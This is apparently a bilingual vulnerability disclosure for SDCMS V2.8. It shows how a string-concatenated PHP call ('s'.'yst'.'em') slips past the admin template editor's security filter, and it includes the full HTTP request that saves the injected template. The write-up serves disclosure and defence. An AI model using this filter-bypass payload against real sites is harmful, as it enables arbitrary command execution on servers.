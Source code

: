 # SDCMS V2.8 commnd execution
*SDCMS V2.8命令执行*
## Environment
*环境*
V2.8
![[Pasted image 20241009135524.png]]
https://www.sdcms.cn/cms.html
## Analysis
*分析*
There is a hidden danger in the security filtering method of template content in app\\admin\\controller\\theme.php, which can cause arbitrary command execution through code injection.
*\\app\\admin\\controller\\theme.php中对模板内容安全过滤方式存在隐患，可通过代码注入造成任意命令执行*

![[Pasted image 20241009141106.png]]

![[Pasted image 20241009141146.png]]
## Verify
*证明*
In the backend template plugin ->template management, add code.
*在后台模板插件->模板管理，添加代码*
```php
{php $a='s'.'yst'.'em'; $b='dir'; $a($b);}
```
You can bypass code security verification and execute commands.
*即可绕过代码安全校验，实现命令执行*
![[Pasted image 20241009141545.png]]
Successfully saved
*成功保存*
![[Pasted image 20241009141715.png]]
```http
POST /?m=admin&c=theme&a=edit&root=ZTE3MWlQeSt1STBoNzM1WHJ5L05JYjBsZktMZU1HUHB1ZUtxRDBrWWZMMnZxcmY4Z0FPMmZtdmNuV3M= HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 1908
Origin: http://localhost
Connection: close
Referer: http://localhost/?m=admin&c=theme&a=edit&root=ZTE3MWlQeSt1STBoNzM1WHJ5L05JYjBsZktMZU1HUHB1ZUtxRDBrWWZMMnZxcmY4Z0FPMmZtdmNuV3M%3D
Cookie: iconSize=16x16; jenkins-timestamper-offset=-28800000; PHPSESSID=fv6b5117hu9kv7fbepjs9ie1n2; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D; XDEBUG_SESSION=PHPSTORM
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

file=2020%2Fcity.php&t0=OTMzZDIrVkJDWUZkTzVZYm1LRFNxei9OSTVFWlZZTGlCZmh2ajI3NUFkQzZ1aDJNaEhMZFhaTXM5U1U%3D&t1=%E5%9F%8E%E5%B8%82%E5%88%86%E7%AB%99&t2=%7Bphp+%24self_name%3D'%E5%9F%8E%E5%B8%82%E5%88%86%E7%AB%99'%7D%0D%0A%7Bphp+%24self_ename%3D'city'%7D%0D%0A%7Bphp+%24position%3D%5B%5B'name'%3D%3E%24self_name%2C'url'%3D%3ETHIS_LOCAL%5D%5D%7D%0D%0A%7Binclude+file%3D%22include%2Ftop.php%22%7D%0D%0A%3Ctitle%3E%7B%24self_name%7D_%7Bsdcms%5Bweb_name%5D%7D%3C%2Ftitle%3E%0D%0A%3Cmeta+name%3D%22keywords%22+content%3D%22%7Bsdcms%5Bseo_key%5D%7D%22%3E%0D%0A%3Cmeta+name%3D%22description%22+content%3D%22%7Bsdcms%5Bseo_desc%5D%7D%22%3E%0D%0A%3C%2Fhead%3E%0D%0A%0D%0A%3Cbody%3E%0D%0A{php+$a='s'.'yst'.'em';+$b='dir';+$a($b);}%0D%0A%09%7Binclude+file%3D%22include%2Fhead.php%22%7D%0D%0A%09%7Binclude+file%3D%22include%2Fbanner_inner.php%22%7D%0D%0A%0D%0A%09%3Cdiv+class%3D%22container%22%3E%0D%0A%09%09%3Cdiv+class%3D%22width+ui-row%22%3E%0D%0A%09%09%09%3Cdiv+class%3D%22container-left%22%3E%0D%0A%09%09%09%09%3Cdiv+class%3D%22ui-fixed-s%22+data-parent%3D%22.container%22%3E%0D%0A%09%09%09%09%09%7Binclude+file%3D%22include%2Fleft_nav.php%22%7D%0D%0A%09%09%09%09%3C%2Fdiv%3E%0D%0A%09%09%09%3C%2Fdiv%3E%0D%0A%09%09%09%0D%0A%09%09%09%3Cdiv+class%3D%22container-right%22%3E%0D%0A%09%09%09%0D%0A%09%09%09%09%3Cdiv+class%3D%22ui-box%22%3E%0D%0A%09%09%09%09%09%3Cdiv+class%3D%22ui-box-h2%22%3E%7B%24self_name%7D%3C%2Fdiv%3E%0D%0A%09%09%09%09%09%3Cdiv+class%3D%22ui-box-body%22%3E%0D%0A%09%09%09%09%09%09%3C!--begin--%3E%0D%0A%09%09%09%09%09%09%7Binclude+file%3D%22include%2Fcity.php%22%7D%0D%0A%09%09%09%09%09%09%3C!--over--%3E%0D%0A%09%09%09%09%09%3C%2Fdiv%3E%0D%0A%09%09%09%09%3C%2Fdiv%3E%0D%0A%09%09%09%0D%0A%09%09%09%3C%2Fdiv%3E%0D%0A%09%09%3C%2Fdiv%3E%0D%0A%09%3C%2Fdiv%3E%0D%0A%09%0D%0A%09%7Binclude+file%3D%22include%2Ffoot.php%22%7D%0D%0A%0D%0A%3C%2Fbody%3E%0D%0A%3C%2Fhtml%3E&token=b3b54c27848b1a21c0e3773559fccfe0
```
Visit vulnerability page.
*访问漏洞页面*
![[Pasted image 20241009141812.png]]